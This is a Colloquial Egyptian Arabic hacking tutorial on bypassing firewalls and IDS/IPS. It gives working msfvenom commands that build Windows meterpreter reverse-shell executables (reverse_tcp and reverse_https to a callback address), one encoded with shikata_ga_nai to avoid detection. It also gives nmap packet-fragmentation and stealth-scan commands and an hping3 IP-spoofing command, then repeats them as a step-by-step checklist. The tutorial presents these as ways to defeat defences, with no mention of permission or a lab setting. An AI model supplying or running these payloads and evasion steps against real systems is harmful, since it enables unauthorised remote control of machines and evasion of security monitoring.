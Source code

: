 ## **🔥 استغلال نقاط ضعف الـ Firewall و IDS/IPS 🔥**

### **🔹 يعني إيه Firewall و IDS/IPS؟**

قبل ما نبدأ، لازم نفهم الفرق بين الحاجات دي:

✔ **Firewall:**  
🔹 ده الجدار الناري اللي بيفلتر ويمنع أي اتصال مش مصرح بيه بين الشبكة والإنترنت.

✔ **IDS (Intrusion Detection System):**  
🔹 ده نظام بيراقب الشبكة ويبلغ عن أي نشاط مشبوه، لكنه **مش بيمنع** الهجمات.

✔ **IPS (Intrusion Prevention System):**  
🔹 ده زي الـ IDS، لكنه **بيتصرف** ويمنع الهجمات فورًا بدل ما يبلغ عنها بس.

🎯 **💬 الخلاصة بالمصري:**  
"الفايروول حارس أمن بيمنع الناس من الدخول، الـ IDS كاميرات مراقبة بتكشف المتسللين، والـ IPS زي الأمن اللي بيتدخل فورًا لما حد يشك فيه!" 😆

---

## **🟢 1. تجاوز الفايروول باستخدام تقنيات الـ Evasion**

الفايروول بيمنع أي اتصال خارجي **غير متوقع**، فلو عايز تتجاوز الحماية، لازم تستخدم تقنيات تخليه يفتكر إن الاتصال **طبيعي**.

🛠 **تقنيات تجاوز الفايروول:**

✔ **📌 استخدام الاتصالات الخارجة (Reverse Shell):**

- بدل ما تحاول تدخل للجهاز مباشرة (Blocked)، تخليه هو اللي يتصل بيك! 😏
- مثال باستخدام `MSFVenom` لإنشاء `Reverse Shell`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > bypass_firewall.exe
```

- كده الجهاز المستهدف هو اللي هيبعت الاتصال، فالفايروول مش هيمنعه.

✔ **📌 استخدام HTTP/HTTPS عشان تمر من خلال البروكسيات:**

- معظم الشبكات بتسمح بالاتصالات على بورت **80 (HTTP)** و **443 (HTTPS)**، فممكن تستخدمهم لتجاوز الفايروول.

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=443 -f exe > hidden_payload.exe
```

🎯 **💬 الخلاصة بالمصري:**  
"بدل ما تخبط على الباب (Blocked)، خلي اللي جوه هو اللي يفتحلك الباب بنفسه!" 😂

---

## **🟢 2. استغلال نقاط ضعف الـ IDS/IPS وتخطيه**

الـ IDS/IPS بيبحث عن **أنماط معروفة** للهجمات، ولو غيرت شكل الهجوم، ممكن تعدي من غير ما يتكشف!

🛠 **تقنيات تجاوز الـ IDS/IPS:**

✔ **📌 تقسيم الحزمة (Packet Fragmentation):**

- بدل ما تبعت كود الاختراق في حزمة واحدة، قسمه على أكتر من حزمة عشان الـ IDS ما يقدرش يتعرف عليه.

```bash
nmap -f 192.168.1.1
```

- `-f` ده الخيار اللي بيقسم الحزم لقطع صغيرة عشان تعدي من الفحص.

✔ **📌 تشفير الحمولة (Encoding the Payload):**

- استخدم `shikata_ga_nai` عشان تغير شكل الكود وتمنع كشفه.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > evaded_payload.exe
```

✔ **📌 تغيير التواقيع المعروفة للهجمات (Signature Modification):**

- بعض الأدوات زي `Scapy` بتسمحلك بتعديل شكل الحزم اللي بتبعتها بحيث ميتمش التعرف عليها.

🎯 **💬 الخلاصة بالمصري:**  
"لو في واحد بيراقب عربيات وبيفتش اللي لونها أحمر، غير لون عربيتك وهتعدي عادي! 😂"

---

## **🟢 3. استغلال أخطاء التهيئة في الفايروول و الـ IDS/IPS**

في بعض الأحيان، المسؤولين عن الشبكة بيعملوا **إعدادات غلط** في الفايروول أو الـ IDS، وده ممكن تقدر تستغله لصالحك.

🛠 **طرق استغلال الإعدادات الخاطئة:**

✔ **📌 اختبار الفلترة الضعيفة للبورتات:**

```bash
nmap -sS -p- 192.168.1.1
```

🔹 `-sS` → بيسمح بعمل فحص Stealthy عشان متكشفش بسرعة.  
🔹 `-p-` → بيختبر كل البورتات عشان يلاقي اللي مفتوح.

✔ **📌 تجربة تجاوز القواعد باستخدام `IP Spoofing`:**

```bash
hping3 -S -a 192.168.1.100 -p 80 192.168.1.1
```

🔹 `-a` → بيخليك تبعت الحزمة بعنوان IP مزور، عشان تبان إنك جهاز شرعي في الشبكة.

🎯 **💬 الخلاصة بالمصري:**  
"لو الحارس بيفتح الباب لناس معينة، حاول تتنكر وتبان كإنك واحد منهم!" 😆

---

## **🛠️ خطوات عملية لتجاوز الفايروول و IDS/IPS**

✅ **1. إنشاء `Reverse Shell` عشان الجهاز المستهدف هو اللي يتصل بيك:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > bypass_firewall.exe
```

✅ **2. استخدام `HTTP/HTTPS` لتجاوز الفلترة:**

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=443 -f exe > hidden_payload.exe
```

✅ **3. استخدام `shikata_ga_nai` عشان تخطي كشف الـ IDS/IPS:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > evaded_payload.exe
```

✅ **4. تقسيم الحزم لتجاوز الفحص باستخدام `Nmap`:**

```bash
nmap -f 192.168.1.1
```

✅ **5. استخدام `IP Spoofing` عشان تعدي كأنك جهاز شرعي في الشبكة:**

```bash
hping3 -S -a 192.168.1.100 -p 80 192.168.1.1
```

🎯 **💬 الخلاصة النهائية بالمصري:**  
"الفايروول والـ IDS زي بوابة أمنية، لو عايز تعدي، يا تغير شكلك، يا تتنكر، يا تخليهم يفتحوا لك الباب بنفسهم!" 😎🔥
